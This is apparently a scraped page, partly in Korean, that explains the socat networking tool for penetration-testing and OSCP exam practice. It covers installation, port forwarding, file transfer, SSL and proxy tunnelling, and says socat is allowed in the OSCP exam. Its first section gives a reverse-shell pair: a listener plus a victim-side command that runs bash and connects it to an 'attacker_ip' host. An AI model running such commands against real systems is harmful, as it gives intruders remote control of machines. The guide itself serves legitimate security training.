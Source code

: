 ```bash
attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT
2024/09/23 15:44:38 socat[41135] N listening on AF=2 0.0.0.0:443
```

The command above used the -d option to enable verbose output; using it again (-d -d) will increase the verbosity of the commands. The TCP-LISTEN:443 option creates a TCP listener on port 443, establishing a server socket for incoming connections. Finally, the STDOUT option directs any incoming data to the terminal.

1. **패키지 리스트 업데이트**:

   ```
   sudo apt update
   ```

2. **socat 설치**:
   ```
   sudo apt install socat
   ```

설치 후 버전을 확인하려면 `socat -V` 명령어를 실행하세요. Ubuntu 22.04 (Jammy) 기준으로 최신 버전(예: 1.7.4.4)이 설치됩니다. 만약 최신 버전이 필요하다면 소스에서 컴파일할 수 있지만, 일반적으로 apt로 충분합니다.

### socat 사용법 및 실용적인 명령어 세트

socat (SOcket CAT)은 두 개의 양방향 바이트 스트림 간 데이터 전송을 위한 강력한 도구입니다. netcat(nc)의 확장 버전으로, 파일, 파이프, 장치, 소켓(TCP/UDP/Unix/SSL 등)을 연결할 수 있습니다. 기본 구문은 다음과 같습니다:

```
socat [옵션] <주소1> <주소2>
```

- **주소(Address)**: 연결할 데이터 채널을 지정 (예: TCP4:host:port, STDIO(-), FILE:/path, EXEC:'command').
- **옵션**: `-d -d` (디버그), `-u` (단방향), `fork` (다중 연결 허용), `reuseaddr` (포트 재사용) 등.

#### 1. **기본 연결 및 쉘 공유 (Reverse Shell)**

- **리버스 쉘 생성 (공격자 측 리스너)**:
  ```
  socat TCP-LISTEN:4444,reuseaddr,fork -
  ```
  - 포트 4444에서 연결 대기. `fork`로 다중 연결 허용. `-`은 STDIO(표준 입력/출력) 연결.
- **피해자 측에서 쉘 전송**:
  ```
  socat TCP:attacker_ip:4444 EXEC:'bash -li',pty,stderr,setsid,sigint,sane
  ```
  - bash 쉘을 pty(터미널)로 실행. `sigint`로 Ctrl+C 처리.
  - -l 사용자 로그인 쉘 사용

#### 2. **포트 포워딩 (Port Forwarding)**

- **로컬 포트 포워딩 (로컬 8080 → 원격 80)**:
  ```
  socat TCP-LISTEN:8080,reuseaddr,fork TCP:remote_host:80
  ```
  - 로컬 8080 포트로 들어온 트래픽을 remote_host:80으로 전달.
- **리버스 포트 포워딩 (원격 포트 → 로컬)**:
  ```
  socat TCP-LISTEN:remote_port,fork TCP:local_host:local_port
  ```
  - 원격에서 연결 시 로컬로 트래픽 전달 (예: bastion 호스트 우회).

#### 3. **파일 전송**

- **파일 업로드 (클라이언트 측)**:
  ```
  socat -u FILE:/local/path TCP:remote_host:9999
  ```
  - `-u`로 단방향 전송. 원격에서 `socat TCP-LISTEN:9999,reuseaddr - > /remote/path` 실행.
- **대용량 파일 tail -f 스타일 모니터링**:
  ```
  socat -u /tmp/logfile,seek-end=0,ignoreeof -
  ```
  - 파일 끝부터 실시간 읽기 (로그 모니터링에 유용).

#### 4. **시리얼 포트 또는 장치 연결**

- **시리얼 포트 (ttyUSB0)와 TCP 연결**:
  ```
  socat /dev/ttyUSB0,raw,echo=0,crnl TCP-LISTEN:1234,reuseaddr
  ```
  - 시리얼 장치(/dev/ttyUSB0)를 TCP 1234 포트로 노출. `crnl`로 줄바꿈 변환.

#### 5. **프록시 또는 SSL 터널링**

- **HTTP 프록시 통해 연결**:
  ```
  socat TCP-LISTEN:8888,fork PROXY:proxy_host:80,proxyport=3128
  ```
  - SOCKS/HTTP 프록시 우회.
- **SSL 연결 (간단한 서버)**:
  ```
  socat OPENSSL-LISTEN:4433,reuseaddr,cert=server.crt,key=server.key,fork STDOUT
  ```
  - SSL 서버 생성 (인증서 필요).

#### 6. **기타 유용한 옵션 및 팁**

- **디버그 활성화**: `-d -d` 추가로 로그 출력 (문제 해결 시 필수).
- **인터랙티브 쉘 (SSH-like)**:
  ```
  socat -,echo=0,raw EXEC:'ssh user@host',pty,setsid,ctty
  ```
  - 로컬 터미널에서 SSH 실행, 제어 문자(Ctrl+C) 전달.
- **웹 서버 대체 (간단한 HTTP 응답)**:
  ```
  socat TCP-LISTEN:10081,reuseaddr,fork,crlf SYSTEM:"echo 'HTTP/1.0 200 OK\n\nHello World'"
  ```

이 명령어들은 man 페이지(`man socat`)나 예제 파일(`/usr/share/doc/socat/examples/`)에서 더 확장할 수 있습니다. 실습 시 Kali Linux나 HTB/Vulnhub에서 테스트하세요.

### OSCP 시험에서 socat 허용 여부

네, OSCP 시험에서 socat은 **허용됩니다**. Offensive Security의 공식 가이드(OSCP+ Exam Guide)에 따르면, socat은 고급 터널링과 쉘 통신을 위한 도구로 명시적으로 허용된 목록에 포함됩니다. PWK 자료에서도 socat 사용 예제가 포함되어 있으며, 펜테스터들이 자주 사용하는 netcat 대안으로 활용됩니다. 다만, 자동화 스크립트나 제한된 기능(예: Metasploit 전체 사용 금지)을 피하세요. 시험 중 socat 바이너리를 업로드해 사용하는 것도 일반적입니다.

추가 팁: OSCP 시험에서 socat은 리버스 쉘 안정화나 포트 포워딩에 유용하지만, ligolo-ng 같은 대안도 고려하세요. (OffSec FAQ 참조)
